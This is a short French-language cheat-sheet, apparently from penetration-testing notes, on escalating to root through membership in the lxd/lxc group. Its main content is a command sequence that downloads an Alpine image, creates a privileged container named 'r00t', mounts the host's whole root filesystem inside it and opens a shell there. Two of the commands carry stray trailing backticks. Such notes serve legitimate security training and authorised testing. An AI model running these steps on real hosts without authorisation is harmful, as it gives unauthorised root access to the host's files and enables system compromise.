 Si notre utilisateur est membre du groupe lxd / lxc, il est possible de créer un conteneur. Cela nous donne la possibilité d'être root sur ce conteneur, de monter la racine de l'host à l'intérieur du conteneur et donc de le lire avec les droits root.

#### 💾 Télécharger une image de conteneur Alpine Linux :

```bash
wget https://dl-cdn.alpinelinux.org/alpine/v3.17/releases/x86_64/alpine-minirootfs-3.17.1-x86_64.tar.gz
```

#### 🚀 Initialiser LXD au besoin:

```bash
lxd init
```

#### 📝 Importer l'image Alpine comme une image LXC :

```bash
lxc image import alpine-minirootfs-3.17.1-x86_64.tar.gz --alias alpine
```
 
#### 🛫 Lancer un conteneur Alpine avec des privilèges élevés :

```bash
lxc init alpine r00t -c security.privileged=true`
```

#### 🥞 Monter le disque de l'hôte dans le conteneur :

```bash
lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true`
```

#### 🐚 Accéder au shell dans le conteneur :

```bash
lxc start r00t
lxc exec r00t /bin/sh
```

